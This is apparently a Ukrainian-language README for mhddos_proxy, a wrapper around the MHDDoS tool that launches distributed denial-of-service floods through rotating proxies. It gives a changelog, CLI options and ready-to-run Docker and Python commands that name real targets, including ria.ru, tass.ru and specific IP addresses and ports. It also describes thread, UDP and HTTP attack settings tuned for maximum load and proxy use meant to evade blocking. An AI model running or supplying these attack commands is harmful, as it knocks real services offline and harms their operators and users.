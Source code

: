 Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Не потребує VPN** - скачує і підбирає робочі проксі для атаки (доступний режим `--vpn` за бажанням)
- Атака **декількох цілей** з автоматичним балансуванням навантаження
- Використовує **різноманітні методи для атаки**

### ⏱ Останні оновлення

- **23.04.2022** 
  - Змінено прапорець `--vpn` - тепер ваш IP/VPN використовується **разом** із проксі, а не замість. Щоб досягти попередньої поведінки, використайте `--vpn 100`
- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)

<details>
  <summary>📜 Раніше</summary>

- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі
- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS.
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - кількість потоків, за замовчуванням - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🐳 Комьюніті
- [Детальний розбір MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)
- [Utility for converting shared targets into config format](https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path to file with proxies to use
      --udp-threads 1        Total number of threads to run for UDP sockets (defaults to 1)
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

### Власні проксі

#### Формат файлу:

    114.231.123.38:1234
    114.231.123.38:3065:username:password
    username:password@114.231.123.38:3065
    socks5://114.231.155.38:5678
    socks5://114.231.155.38:5678:username:password
    socks4://username:password@114.231.123.38:3065

#### Віддалений файл (однаково для Python та Docker)

    python3 runner.py --proxies https://pastebin.com/raw/UkFWzLOt https://ria.ru

#### Для Python

Покладіть файл поруч з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

#### Для Docker
Потрібно монтувати volume щоби Docker мав доступ до файлу.  
Обов'язково вказувати абсолютний шлях до файлу і не загубити `/` перед іменем файлу

    docker run -it --rm --pull always -v /home/user/ddos/mhddos_proxy/proxies.txt:/proxies.txt ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --proxies /proxies.txt https://ria.ru

